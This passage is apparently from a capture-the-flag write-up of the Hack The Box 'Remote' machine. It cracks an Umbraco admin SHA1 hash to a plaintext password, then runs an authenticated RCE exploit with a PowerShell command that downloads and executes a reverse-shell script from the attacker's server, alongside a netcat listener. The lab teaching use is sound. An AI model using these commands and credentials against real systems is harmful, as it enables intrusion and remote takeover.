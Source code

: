 So we identified a hash aswell as the type of this hash :
`b8be16afba8c314ad33d812f22a04991b90e2aaa`
and
`SHA1`

This hash can then be easily cracked thanks to [john](https://www.openwall.com/john/) for example.
Thus, we can retrieve the admin password for this website :
**baconandcheese**

We also see an other interesting record in this file but could not find any uses for it :
```
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
```

Now, let's quickly jump back to the login page to see if those credentials are correct !

![Admin login webpage]({{ "assets/Remote/adminLoginWebsite.png" | absolute_url }} "Admin login webpage")

Aaaand we finally have access to the admin panel of the Umbraco CMS !

![Admin panel webpage]({{ "assets/Remote/umbracoAdminPanel.png" | absolute_url }} "Admin panel webpage")

Now we have a first foot on this box. Let's get the first user !

# User access
As mentioned above, there is a known RCE as a authenticated user on this particular CMS.
[noraj](https://twitter.com/noraj_rawsec) developed a [nice exploit](https://github.com/noraj/Umbraco-RCE) for it.

We can execute some code on the target machine, but our goal here is to have a reverse shell.

I found the [following script](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1) which seems pretty nice to get a first shell on our target.

We just have to adapt it with our IP address and we are good to go. We'll have to make the target execute this script now.

Let's quickly launch a web server with `python -m http.server` in the directory where our previous script is stored.
Next step is to make our target download the script and run it. To achieve this, we crafted this powershell command :
`powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.14:8000/Invoke-PowerShellTcp.ps1')"`

The final payload to execute this reverse shell on the target machine is as follow :
`python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.14:8000/Invoke-PowerShellTcp.ps1')"`

With a netcat listening on our laptop with :
`rlwrap nc -lvnp 4242`

And boom, we got the reverse shell connected :
![Reverse Shell connection]({{ "assets/Remote/shell.png" | absolute_url }} "Reverse Shell connection")
